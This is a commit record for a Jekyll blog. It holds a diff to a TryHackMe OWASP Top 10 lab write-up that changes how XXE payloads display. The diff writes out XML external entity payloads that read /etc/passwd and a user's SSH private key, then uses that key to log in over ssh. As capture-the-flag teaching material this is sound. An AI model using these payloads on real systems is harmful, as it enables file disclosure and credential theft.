

Before and after one commit to 4n3i5v74/4n3i5v74.github.io, a Jekyll site: the page built from _posts/2021-02-10-tryhackme-owasp-top-10.md, in a window 1280 px wide and 1400 px high, scrolled down 6264 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Modified

```diff
--- a/_posts/2021-02-10-tryhackme-owasp-top-10.md
+++ b/_posts/2021-02-10-tryhackme-owasp-top-10.md
@@ -197,15 +197,15 @@
 
 Nmap done: 1 IP address (1 host up) scanned in 1.90 seconds{% endraw %}{% endcapture %} {% include code.html code=code %}
 
-Use `firefox` to load url `http://<ip>` and try the below payloads. Use `&` in place of `&amp;`.
+Use `firefox` to load url `http://<ip>` and try the below payloads.
 {% capture code %}<!DOCTYPE replace [<!ENTITY name "feast"> ]>
   <userInfo>
     <firstName>falcon</firstName>
-    <lastName>&amp;name;</lastName>
+    <lastName>&name ;</lastName>
   </userInfo>{% endcapture %} {% include code.html code=code%}
 
 {% capture code %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
-<root>&amp;read;</root>{% endcapture %} {% include code.html code=code %}
+<root>&read ;</root>{% endcapture %} {% include code.html code=code %}
 
 The first payload will display `falcon feast` and the second payload will display contents of system file `/etc/passwd`.
 
@@ -214,13 +214,13 @@
 
 Use `firefox` to load the url `http://<ip>`.
 
-Use the following payloads to get the contents of `/etc/passwd`. Use `&` in place of `&amp;`.
+Use the following payloads to get the contents of `/etc/passwd`.
 {% capture code %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
-<root>&amp;read;</root>{% endcapture %} {% include code.html code=code %}
+<root>&read ;</root>{% endcapture %} {% include code.html code=code %}
 
-There is one non-system user. Use the following payload to read the user's rsa private key. Use `&` in place of `&amp;`.
+There is one non-system user. Use the following payload to read the user's rsa private key.
 {% capture code %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/<user>/.ssh/id_rsa'>]>
-<root>&amp;read;</root>{% endcapture %} {% include code.html code=code %}
+<root>&read ;</root>{% endcapture %} {% include code.html code=code %}
 
 Copy the contents of payload output to new file. Change the permission of the file to be more stricter, like `chmod 400 <user>_id_rsa` and use `ssh` to login to the machine using downloaded user's ssh private key.
 {% capture code %}{% raw %}ssh -i <user>_id_rsa <user>@<ip>{% endraw %}{% endcapture %} {% include code.html code=code %}
```
Also changed, not shown: _posts/2021-03-16-tryhackme-what-the-shell.md (+6 -6 lines).
